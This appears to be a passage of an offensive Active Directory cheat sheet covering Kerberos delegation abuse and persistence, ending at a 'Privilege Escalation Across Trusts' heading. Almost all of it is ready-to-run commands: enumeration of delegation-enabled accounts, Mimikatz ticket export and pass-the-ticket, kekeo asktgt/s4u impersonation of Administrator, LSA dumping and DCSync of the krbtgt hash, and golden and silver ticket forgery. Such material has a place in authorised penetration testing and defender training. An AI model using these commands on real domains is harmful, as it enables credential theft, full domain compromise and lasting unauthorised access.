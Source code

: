 Unconstrained Delegation:
```Powershell              
Get-NetComputer -UnConstrained
            
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
Compromise unconstrained delegation server:            
```Powershell                  
Invoke-Mimikatz -Command ‘"sekurlsa::tickets /export"’
```            
Ticket can be reused:
```Powershell                  
Invoke-Mimikatz -Command ‘"kerberos::ptt C:\tickets\admin.kirbi"’
```
Constrained Delegation:            
            Enumerate users and computer with constranied delegation enabled
            
PowerView (dev):
```Powershell                  
Get-DomainUser -TrustedToAuth 
Get-DomainComputer -TrustedToAuth 
```                
ActiveDirectory module:
```Powershell                  
Get-ADObject -FIlter {msDS-AllowedToDelegateTo -ne “$null”} -Properties msDS-AllowedToDelegateTo
```                
Get cleartext password or NTLM hash of service account:
                https://github.com/gentilkiwi/kekeo
```Powershell                  
.\asktgt.exe /user:termadmin /domain:offensiveps.powershell.local /key:abc123 /ticket:termadmin.kirbi
```                
Now request TGS:
```Powershell                  
\s4u.exe /tgt:termadmin.kirbi /user:Administrator@offensiveps.powershell.local /service:cifs/ops-sqlsrvone.offensiveps.powershell.local   
```                
  Use TGS:
```Powershell                  
Invoke-Mimikatz -Command ‘"kerberos::ptt cifs.ops-sqlsrvone.offensiveps.powershell.local.kirbi"’
                
ls \\ops-sqlsrvone.offensiveps.powershell.local\c$
```
##### Persistence Techniques
    
   Golden Ticket:

  Execute mimikatz on DC:
```Powershell                  
Invoke-Mimikatz -Command ‘"lsadump::lsa /patch"’ -ComputerName <computername>
```                
On any machine:
```Powershell                  
Invoke-Mimikatz -Command ‘"kerberos:golden /User:Administrator /domain:<current domain> /sid:<domain sid> /krbtgt <krbtgt hash> /id:500 /groups:513 /ptt "’
```                
Use DCSync to get krbtgt hash:
```Powershell                  
Invoke-Mimikatz -Command ‘"lsadump::dcsync /user:ops\krbtgt"’
```                
Silver Ticket:
```Powershell                  
Invoke-Mimikatz -Command ‘"kerberos:golden /domain:<current domain> /sid:<domain sid> /target:<host> /service:cifs /rc4:<cifs - hash/ntlmhash> /id:500 /user:Administrator /ptt "’            
```            
Privilege Escalation Across Trusts:
        